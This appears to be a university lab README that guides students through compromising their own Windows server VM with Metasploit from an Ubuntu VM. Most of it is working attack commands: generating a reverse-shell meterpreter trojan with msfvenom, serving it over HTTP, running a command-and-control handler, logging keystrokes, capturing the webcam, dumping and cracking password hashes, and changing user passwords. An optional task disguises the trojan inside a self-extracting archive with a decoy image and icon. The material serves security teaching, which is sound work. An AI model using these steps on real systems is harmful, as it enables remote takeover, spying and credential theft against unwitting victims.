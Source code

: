 # its250
Online resources and examples

### 1. Description
Install Metasploit framework on Ubuntu then launch it from Ubuntu, carry out a cyber attack on the Windows server VM to get ultimate control.

**Prerequisite**

* Both Windows server VM and the Ubuntu VM are used
* Install Metasploit framework on Ubuntu

You may follow this [installation video]()

1. Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Ubuntu.
   ```bash
   # 0. Update and upgrade Ubuntu
   sudo apt update -y && sudo apt upgrade -y
   # 1. Disable anti-virus software (default)
   # 2. Disable firewalls (default)
   # 3. Install with root priviledges
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall 
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
2. (Optional) Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Windows.
   ```batch
   # 1. Disable anti-virus software (Done in Lab03)
   # 2. Disable firewalls (Done in Lab03)
   # 3. Download metaspoit framework windows installer, then in nstall with Administrator account.
   ```

### 2. Tasks (100%)

*Note: replace VM IPs with yours in these tasks*

1. (5%) Find the IP addresses of your Windows server VM and Ubuntu VM, make sure they can ping each other
2.  (5%) On Ubuntu, create a trojan program with msfvenom
    ```bash
    # Replace the Ubuntu_IP with yours
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=Ubuntu_IP LPORT=12345 -f exe > trojan.exe
    ```
3. (5%) On Ubuntu, host trojon.exe with Python built-in SimpleHTTPServer
   ```bash
   # Run the command below from the folder contains trojan.exe
   sudo python3 -m http.server 80
   ```
4. (10%) On Ubuntu, starting a Command-and-Control (C&C) Server
   ```bash
   # Inside msfconsole, replace the Ubuntu_IP with yours
   use multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST Ubuntu_IP
   set LPORT 12345
   # 1. one-time exploit
   exploit

   # 2. continuous exploit
   set exitonsession false
   exploit -j
   ```
5. (5%) On Windows, open a web browser, download http://Ubuntu_IP/trojan.exe, 
6. (5%) On Windows run trojan.exe and ignore any warnings.
7. (5%) On Ubuntu, if everything works, a meterpreter session should open.
8. (10%) Explore and use the meterpreter shell
9. (10%) Migrate to a different process inside meterpreter
   ```bash
   # show a list of processes
   ps
   # migrate to winlogon process
   migrate -N explorer.exe
   # migration is unreliabe. If it failed, restart Windows VM, repeat step 6-9 until succeed.
   ```
10. (20%, each 4%) Post-exploitation. Now the Windows VM is under control. Play with the following meterpreter commands.
   ```bash
   # 1. take a screenshot of the victim's desktop
   screenshot
   # 2. capture key strokes
   # 2.1 start capturing key stroke in the victim machine
   keyscan_start
   # 2.2 On the victim machine, open notepad and type something
   # 2.3 Inside meterpreter, dump the captured key strokes
   keyscan_dump
   # 3. (Optional) Take a phone with the webcam
   webcam_snap
   # 4. Get a Windows command prompt on the victim machine
   shell
   # exit the windows command prompt above
   exit
   # 5. Check network connections on the victim machine from meterpreter
   netstat
   ```
11. (20%) Cracking and changing Windows password.
    1. (10%) Dump the hash values of all saved passwords of all windows users, then crack with John the Ripper.
    ```bash
    # Inside meterpreter
    # 1. dump the hashes
    hashdump # save the result in a text file
    # 2. crack the hashes
    john --wordlist=pass_dict.txt --format=NT hashes.txt
    ```
    2. (10%) Change Windows users' password. Use a user found above, replace oldpass and newpass with yours
    ```bash
    # Inside msf
    msf > use post/windows/manage/change_password
    msf post(change_password) > set smbuser user_name
    msf post(change_password) > set old_password oldpass
    msf post(change_password) > set new_password newpass
    msf post(change_password) > set session 1
    msf post(change_password) > exploit
    ```

### 3. Review questions (Optional)
1. Hide trojan.exe in a self-extract archive.
   1. Download an image as a cover image.
   2. With WinRAR, create a self-extract archive of the cover image and trojan.exe
   3. Configure run after extraction to be: trojan.exe then the cover image.
   4. Download another harmless-look image, convert it into an icon on [icoconvert](https://icoconvert.com/), then use this icon as the icon of the self-extract archive.

**Demo video**


## Reference
* [Running a simple HTTP web server with one terminal command and python](https://linuxconfig.org/running-a-simple-http-web-server-with-one-terminal-command-and-python)
  * [Share Files Using Lightweight Http Servers in Linux](https://linuxhint.com/share_files_lightweight_http_server/)
* [Metasploit](https://docs.rapid7.com/metasploit/quick-start-guide)
  * [Installing Metasploit](https://docs.rapid7.com/metasploit/installing-metasploit-pro)
  * [Restarting Metasploit Services](https://docs.rapid7.com/metasploit/restarting-metasploit-services)
  * [Uninstalling Metasploit](https://docs.rapid7.com/metasploit/uninstalling-metasploit)
* [Installing Metasploit Penetration Testing Framework](https://fedoraproject.org/wiki/Metasploit_Penetration_Testing_Framework)
  * [Metasploit Postgres Setup](https://fedoraproject.org/wiki/Metasploit_Postgres_Setup)
* [Metasploit Framework](https://docs.rapid7.com/metasploit/msf-overview)
* [Creating Infectious Media with Metasploit](https://samsclass.info/123/proj10/p4msf.htm)
* [Offensive Msfvenom: From Generating Shellcode to Creating Trojans](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)
  * [Hide Payloads Behind Images](https://medium.com/@chamo.wijetunga/hide-payloads-behind-images-and-hacking-windows-fb82cf2f0e7c)
    * [7z examples](https://www.dotnetperls.com/7-zip-examples)
  * [Create malicious PDF](https://fareedfauzi.github.io/blog-post/Create-malicious-pdf/)
  * [How to Embed (Hide) a Backdoor into a File (pdf, exe, etc...)](http://dan3lmi.blogspot.com/2019/01/how-to-embed-hide-backdoor-into-file.html)
* [Lab: Hacking an Android Device with MSFvenom](https://resources.infosecinstitute.com/topic/lab-hacking-an-android-device-with-msfvenom/)
* [Autorun.inf Maker](http://www.ashzfall.com/products/autorun/index.html)
  * [How do I test autorun.inf files without wasting CD's?](http://www.ashzfall.com/products/autorun/autorunfloppy.html)
  * [How to Auto-Run Windows Programs When You Plug In a USB Drive](https://www.howtogeek.com/326049/how-to-auto-run-windows-programs-when-you-plug-in-a-usb-drive/)
* [meterpreter basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
  * [Quick Meterpreter and Metasploit tutorial - Stealing hashes and passwords, Keyloggers, Webcams and other post-exploitation modules](http://www.ethicalpentest.com/2018/03/meterpreter-metasploit-tutorial-part2.html)
  * [Post Exploitation for Remote Windows Password](https://www.hackingarticles.in/post-exploitation-remote-windows-password/)
  * [Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
  * [Cracking Windows Password Hashes with Hashcat](https://samsclass.info/123/proj14/123p12winhash.htm)